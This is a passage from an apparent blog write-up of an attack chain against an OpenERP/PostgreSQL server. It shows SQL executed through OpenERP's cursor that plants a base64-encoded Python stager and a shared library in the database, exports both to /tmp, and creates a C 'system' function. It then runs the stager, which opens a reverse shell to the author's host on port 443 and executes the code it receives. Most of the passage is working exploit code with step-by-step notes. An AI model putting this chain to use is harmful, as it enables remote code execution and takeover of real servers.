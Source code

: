 ''') 
cr.execute(''' 
insert into res_support (bar, name) VALUES (decode('aW1wb3J0IHNvY2tldCwgc3RydWN0CgpzPXNvY2tldC5zb2NrZXQoMiwxKQpzLmNvbm5lY3QoKCcx 
MC4xMTAuNi4yNycsNDQzKSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMu 
cmVjdig0MDk2KQp3aGlsZSBsZW4oZCkhPWw6CiAgICBkKz1zLnJlY3YoNDA5NikKZXhlYyhkLHsn 
cyc6c30pCgo=','base64'), 'ex.py'); 
''') 
cr.execute(''' 
select lo_export((select bar from res_support where name = 'pl.so'), '/tmp/pl.so'); 
''') 
cr.execute(''' 
select lo_export((select bar from res_support where name = 'ex.py'), '/tmp/ex.py'); 
''') 
cr.execute(''' 
CREATE OR REPLACE FUNCTION system(cstring) RETURNS integer AS 
    '/tmp/pl.so', 'system' LANGUAGE 'c' STRICT; 
''') 
cr.execute(''' 
select system('/usr/bin/python /tmp/ex.py') 
''') 
{% endhighlight %}

What we are actually doing is:

1. Create a table with a field of type 'oid', which can contain binary data in a raw format, and which can be exported directly to the disk on the server.
2. Create a function to convert bytea to oid.  
3. Create a class that will automagically convert bytea to oid using the above function.  When we decode base64, it will go into the bytea format. This will allow us to directly import base64 straight back into a binary oid.
4. This is inserting a base64 conversion of plperl.so for PostgreSQL 9.3.5.  This is what comes with Ubuntu 14.04 Server.  If you need to figure out which version of PostgreSQL is under the hood to get the correct file to use, you can use something like this, which will put the results into Settings → Technical → Parameters → System Parameters:

{% highlight python %}
cr.execute('''
INSERT INTO ir_config_parameter (key, value) VALUES ('Version', VERSION());
''')
{% endhighlight %}

Considering that most OpenERP installations are running Ubuntu, worst case scenario you can spin up a matching VM and get the .so file.  This file gives us the ability to launch shell commands.  To generate the base64 for this, use this command:

    [danny@localhost ~]$ base64 plperl.so 

5. Uploading the attack script.  This is just a small python script that sets up a reverse tunnel over port 443 back to my waiting server.
6. This exports the library into a file at /tmp
7. This exports the script to a file at /tmp
8. This creates a PostgreSQL function bound to the library that we uploaded earlier to execute shell commands, and
9. This uses that to run the script, which then connects back to me.
